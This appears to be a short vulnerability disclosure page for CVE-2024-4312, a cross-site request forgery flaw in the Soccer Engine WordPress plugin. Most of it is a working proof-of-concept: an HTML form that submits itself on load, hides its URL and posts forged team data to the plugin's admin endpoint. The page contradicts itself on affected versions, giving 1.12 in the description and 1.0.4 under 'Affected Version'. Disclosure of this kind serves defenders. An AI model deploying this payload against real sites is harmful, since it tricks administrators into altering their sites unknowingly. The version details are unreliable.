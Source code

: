 ```yaml
---
layout: page
title: CVE-2024-4312
subtitle: Soccer Engine – Soccer Plugin for WordPress <= 1.12 - Cross-Site Request Forgery
---
```

## Description
The Soccer Engine – Soccer Plugin for WordPress plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.12. This is due to missing or incorrect nonce validation when saving match and team settings. This makes it possible for unauthenticated attackers to change plugin settings as well as teams, players, etc. via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS Vector CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.0.4

## PoC :
```
<html>
  <!-- Made by eneriiiii <3 -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin.php?page=daextsoenl-teams" method="POST">
      <input type="hidden" name="form&#95;submitted" value="1" />
      <input type="hidden" name="name" value="eneri" />
      <input type="hidden" name="description" value="eneri" />
      <input type="hidden" name="logo" value="" />
      <input type="hidden" name="type" value="0" />
      <input type="hidden" name="club&#95;nation" value="ad" />
      <input type="hidden" name="national&#95;team&#95;confederation" value="0" />
      <input type="hidden" name="stadium&#95;id" value="0" />
      <input type="hidden" name="full&#95;name" value="" />
      <input type="hidden" name="address" value="" />
      <input type="hidden" name="tel" value="" />
      <input type="hidden" name="fax" value="" />
      <input type="hidden" name="website&#95;url" value="" />
      <input type="hidden" name="foundation&#95;date" value="" />
      <input type="hidden" name="foundation&#95;date&#95;alt&#95;field" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/soccer-engine-lite/soccer-engine-soccer-plugin-for-wordpress-112-cross-site-request-forgery
- https://www.cve.org/CVERecord?id=CVE-2024-4312





